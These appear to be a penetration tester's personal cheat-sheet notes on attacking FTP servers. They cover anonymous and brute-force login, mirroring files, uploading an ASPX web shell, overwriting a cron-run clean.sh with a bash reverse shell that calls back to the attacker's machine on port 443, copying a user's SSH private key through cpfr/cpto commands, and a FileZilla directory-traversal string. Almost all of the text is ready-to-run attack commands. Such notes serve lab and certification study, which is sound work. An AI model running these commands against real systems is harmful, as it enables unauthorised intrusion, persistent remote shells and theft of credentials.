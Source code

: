 #### FTP Enumeration
==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

```bash - kali
ftp $TARGET 21
```

Admin login
```bash - kali
admin
```

Anonymous login
```bash - kali
anonymous
```

```bash - kali
nmap --script ftp-brute -p 21 $TARGET
```

Check for directory traversal:
```bash - kali
ls ../
```

#### Exit Extended Passive Mode
![[Pasted image 20220401094126.png]]

```bash - kali
pass
```

```bash - kali
ls
```

Then switch to binary mode to upload files:
```bash - kali
bin
```

#### Downloading recursively 
```bash - kali
wget --mirror 'ftp://anonymous:anonymous@$TARGET'
```

```bash - kali
wget -r ftp://anonymous@$TARGET:21
```

```bash - kali
wget -m ftp://anonymous:anonymous@$TARGET
```

```bash - kali
wget -m --no-passive ftp://anonymous:anonymous@$TARGET
```

#### Upload reverse shell
```bash - kali
binary
```

```bash - kali
put cmdasp.aspx
```

Then visit webshell in web browser:
```bash - kali
firefox http://$TARGET/cmdasp.aspx
```

#### Display file without downloading
```bash - kali
get <FILENAME> -
```

#### Existing scripts
`scripts` folder found on FTP, file called `clean.sh` that is part of cron job.  Made a reverse shell with same name, uploaded and overwrote.

clean.sh
```bash - kali
echo '#!/bin/bash \nbash -i >& /dev/tcp/$KALI/443 0>&1' > clean.sh
```

```bash - kali
ftp $TARGET
```

```bash - kali
cd scripts
```

```bash - kali
put clean.sh
```

Set up listener and wait.

[[rlwrap]]

#### Nmap vsftpd script

```bash - kali
nmap --script ftp-vsftpd-backdoor -p 21 $TARGET
```

#### copy id_rsa

```bash - kali
nc $TARGET 21
```

```bash - kali
cpfr /home/user/.ssh/id_rsa
```

```bash - kali
cpto /home/kali/id_rsa
```

[[Port 22 - SSH  ~#id_rsa]]

#### Home FTP Server
https://www.exploit-db.com/exploits/34050

#### FileZilla Directory Transversal
```
.....=C:/Program+Files/FileZilla+Server/FileZilla+Server.xml
```

To crack passwords, try:
[[Hashcat#FileZilla 0 9 55]]

#### vsftpd
Config file is most likely located at `/etc/vsftpd.conf`. If you can read this file, look for `anon_root=/srv` entry to find root directory of FTP.  `/srv` in this example.
